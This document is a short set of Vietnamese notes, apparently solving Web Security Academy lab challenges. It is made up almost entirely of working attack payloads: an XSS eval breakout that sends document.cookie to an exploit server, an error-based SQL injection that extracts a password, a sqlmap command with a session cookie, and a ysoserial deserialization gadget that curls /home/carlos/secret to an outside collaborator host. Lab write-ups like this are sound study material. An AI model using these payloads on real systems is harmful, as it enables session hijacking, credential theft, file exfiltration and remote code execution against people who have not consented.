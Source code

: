 1.

Filter dấu `()`

Payload:

``"-alert`1`-"``

eval: dùng `"}` để thoát ra, và sau đó là thực hiện các lệnh tùy ý

![alt text](image.png)

```
"}; location="https://exploit-0a0100750400e8038397db4d01580012.exploit-server.net/log/?c=" document.cookie; //
```

Payload exploit server
```
<script>
location="https://0a4000b304e1e8b48310dc8200ac0043.web-security-academy.net/?find=%22%7D%3B+location%3D%22https%3A%2F%2Fexploit-0a0100750400e8038397db4d01580012.exploit-server.net%2Flog%2F%3Fc%3D%22%2Bdocument.cookie%3B+%2F%2F";
</script>
```
2.

inject `ASC`

thay thế `LIMIT (1)` thì có thể thay thế 

Thay 1 bằng 1 điều kiện, nnos sẽ thực thi và báo lỗi

Payload: `LIMIT(CAST((SELECT+password+FROM+users+LIMIT+1)+AS+int))`

```bash
python sqlmap.py -u 'https://0a4000b304e1e8b48310dc8200ac0043.web-security-academy.net/filtered_search?find=ba&organize=5&order=ASC&BlogArtist=a' --cookie='session=15PsYF6zXPEvtWrGtJRkTyAUMJPWxxJM' --batch --level=5 --risk=3 --random-agent
```

3.

payload:

```bash
java -jar ysoserial.jar CommonsCollections4 'curl -d @/home/carlos/secret lf42lj1
a0ud26zfdjrau1xp67xdo1ip7.oastify.com' | gzip | base64 -w 0 > text.txt
```

